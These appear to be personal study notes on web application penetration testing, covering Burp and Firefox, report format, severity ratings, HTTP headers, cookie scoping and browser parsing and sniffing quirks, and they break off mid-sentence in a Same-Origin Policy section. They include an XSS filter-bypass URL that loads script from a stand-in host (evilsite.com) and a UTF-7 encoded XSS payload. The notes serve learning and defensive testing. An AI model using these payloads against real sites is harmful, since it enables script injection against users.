 <h3> Must-Have Tools </h3>
Burp Proxy but free works fine
	Allows us to watch all HTTP(S) communications, intercept and modify requests, and replay existing requests

Firefox
	Allows anyone to set proxy settings specifically in the browser, rather than setting them system-wide

Breaker mindset
	Here to break things before anyone else can, so that vulnerabilities can be fixed before actual attackers can get to them and in order to do so we need to understand how attackers operate, what their goals are, and how they think
	Need to understand what an application is doing and why it's doing it
	Attackers will always have an advantage over defenders

Attacker Goals 	
	When assessing an application, find every bit of functionality. Once you have a rough list of all the bits try to find an attacking goal. For example say you want credit card numbers from an e-commerce site; maybe I'd want to destroy or falsify data in a server monitoring application 

Prioritization 
	Need to rank areas of the application in terms of payoff: if I compromise area X, does that give me low-value or high-value information? What if I did Y? 
	When possible asking developers "What keeps you up at night?" will often point to areas to check

Findings 
	Reports should be as follows
	Title -- E.g. "Reflected Cross-Site Scripting in profiles"
	Severity 
	Description -- Brief description of what the vulnerability is 
	Reproduction Steps -- Brief description of how to reproduce the bug; preferably with a small proof of concept 
	Impact -- What can be done with the vulnerability?
	Mitigation -- How is it fixed?
	Affected assets -- Generally a list of affected URLs

Severity
	Base it on difficulty of exploitation and potential business impact
	Informational - Issue has no real impact
	Low - The business impact is minimal
	Medium - Potential to cause harm to users, but not revealing data
	High - Potential to reveal user data or aids in exploitation of other vulnerabilities 
	Critical - High risk of personal/confidential data exposure, general system compromise, and other severe impacts to the business.

HTTP Requests 
	Basic format as follows:
``` html
		VERB /resource/locater HTTP/1.1
		Header1: Value1
		Header2: Value 2
		...
		<Body of request>
```

Request Headers
	Host: Indicates the desired host handling the request 
	Accept: Indicates what MIME type(s) are accepted by the client; often used to specify JSON or XML output for webservices
	Cookie: Passes cookie data to the server
	Referrer: Page loading to this request (not passed to other servers when using HTTPS on the origin)
	Authorization: Used for 'basic auth' pages (mainly). Takes the form "Basic <base64'd username:password>"

Cookies
	Key-value pairs of data that are sent from the server and reside on the client for a fixed period of time.
	Each cookie has a domain pattern that it applies to and they're passed with each request the client makes to matching hosts.

Cookie Security
	Cookies added for .example.com can be read by any subdomain of example.com
	Cookies added for a subdomain can only be read in that subdomain and its subdomains 
	A subdomain can set cookies for its own subdomains and parent, but it can't set cookies for sibling domains.
	E.g. test.example.com can't set cookies on test2.example.com, but can set them on example.com and foo.test.example.com
	Two important flags to know for cookies 
		Secure: The cookies will only be accessible to HTTPS pages
		HTTPOnly: The cookie cannot be read by JavaScript 

# HTML

Parsing 
	HTML should be parsed according to the relevant spec, generally HTML5 now
	Often not parsed by your browser but also Web-Application Firewalls and other filters.
	Whenever there's a discrepancy in how these two items parse things, there's probably a vulnerability 
	Example:
		You can go to https://example.com/vulnerable?name=<script/xss%20src=http://evilsite.com/my.js> and it generates
		![[Pasted image 20240325211333.png]]
		A bad XSS filter on the web application may not see that as a script tag due to it being a 'script/xss' tag. But Firefox's HTML parser, for instance, will treat the slash as whitespace, enabling the attack.
Legacy Parsing 
	Due to decades of bad HTML, browsers are quite excellent at cleaning up after authors, and these conditions are often exploitable 
	- '`<script>` tag on its own will automatically be closed at the end of the page

# Content Sniffing

MIME Sniffing
	The browser will often not just look at the content-type header that the server is passing, but also the contents of the page. If it looks enough like HTML, it'll be parsed as HTML which led to IE 6/7-era bugs where image and text files containing HTML tags would execute as HTML
	Imagine a site with a file upload function for profile pictures. 
	If that file contains enough HTML to trigger the sniffing heuristics, an attacker could upload a picture and then link it to victims.
	This is one of the reasons why Facebook and other sites use a separate domain to host such content.
Encoding Sniffing
	Similarly, the encoding used on a document will be sniffed by (mainly older) browsers.
	If you don't specify an encoding for an HMTL document, the browser will apply heuristics to determine it.
	If you are able to control the way the browser decodes text, you may be to alter the passing
	A good example is putting UTF-7 text into XSS payloads
	Consider the payload:
	+ADw-script+AD4-alert(1);+ADw-/script+AD4-
	This will go cleanly through HTML encoding, as there are no 'unsafe' characters
	IE8 and below, along with a host of other older browsers, will see this in a page as UTF-7 and switch the parsing over enabling the attack to succeed.

# Same-Origin Policy

What is SOP?
	Same-Origin Policy (SOP) is how the browser restricts a number of security-critical features:
	- What domains you 